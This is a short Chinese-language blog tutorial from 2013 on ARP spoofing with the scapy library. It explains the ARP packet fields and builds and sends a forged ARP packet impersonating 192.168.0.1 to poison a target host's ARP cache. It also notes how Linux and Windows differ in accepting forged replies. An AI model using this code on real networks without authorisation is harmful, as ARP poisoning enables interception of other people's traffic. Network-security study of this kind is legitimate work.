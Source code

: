 ```yaml
---
layout: post
title:  "使用scapy进行ARP欺骗"
date:   2013-07-09 07:08:46
categories: 信息安全
---
```


ARP(Address Resolution Protocol)是将IP地址转换为MAC地址的协议。

查看ARP协议结构:

{% highlight python %}
from scapy.all import *
ls(ARP)
{% endhighlight %}

结果如下:

{% highlight sh %}
hwtype     : XShortField          = (1)
ptype      : XShortEnumField      = (2048)
hwlen      : ByteField            = (6)
plen       : ByteField            = (4)
op         : ShortEnumField       = (1)
hwsrc      : ARPSourceMACField    = (None)
psrc       : SourceIPField        = (None)
hwdst      : MACField             = ('00:00:00:00:00:00')
pdst       : IPField              = ('0.0.0.0')
{% endhighlight %}

**hwtype**   ：硬件类型，据说1是Ethernet。

**ptype**    ：协议类型，据说2048(0x0800)是IP协议。

**hwlen**    ：MAC地址长度，6。

**plen**     ：协议地址长度，IP协议的地址长度为4。

**op**       ：ARP数据包类型
+ 1为ARP请求；
+ 2为ARP应答。

**hwsrc**    ：源MAC地址。

**psrc**     ：源IP地址。

**hwdst**    ：目的MAC地址。

**pdst**     ：目的IP地址。 

有了以上信息，就可以构造可用于攻击的ARP包。

{% highlight python %}
eth=Ether(src='00:00:00:00:00:00')
arp=ARP(op=1,psrc='192.168.0.1',hwsrc=eth.src,pdst='192.168.0.100')
p=eth/arp
p.show()
{% endhighlight %}

ARP包构造如下：

{% highlight sh %}
###[ Ethernet ]###
WARNING: Mac address to reach destination not found. Using broadcast.
  dst       = ff:ff:ff:ff:ff:ff
  src       = 00:00:00:00:00:00
  type      = 0x806
###[ ARP ]###
     hwtype    = 0x1
     ptype     = 0x800
     hwlen     = 6
     plen      = 4
     op        = who-has
     hwsrc     = 00:00:00:00:00:00
     psrc      = 192.168.0.1
     hwdst     = 00:00:00:00:00:00
     pdst      = 192.168.0.100
{% endhighlight %}

python似乎找不到该IP对应的MAC，于是非常人性化的给了个WARNING...

不要在意这些细节...

以上包的意思是说：哈哈哈大家好，我是192.168.0.1,你们谁是192.168.0.100？快告诉我！

我们把这个包发出去。

{% highlight python %}
sendp(p)
{% endhighlight %}

于是就在目标主机的ARP列表里插入了一条记录。

顺便备忘下scapy的发/收包方式：

{% highlight python %}
send()          #发送包
sendp()         #发送从Ethernet层构造的包
recv=sr()       #发送包并抓取应答包及其之前的所有包
recv=srp()      #同上，发送Ethernet层构造的包
recv=sr1()      #发送包并抓取应答包
recv=srp1()     #同上，发送Etherent层构造的包
p=sniff(10)     #抓取10个包
{% endhighlight %}


其实一开始的时候我直接往目标发`opcode=2`也就是ARP Reply的包，
结果目标的linux主机根本不叼我...

似乎linux处理ARP Reply的方式和windows有些区别。
直接给linux发ARP Reply包会被残忍地丢掉，但是给windows发就会被当成正常包接受。

谁知道巨硬是怎么想得...


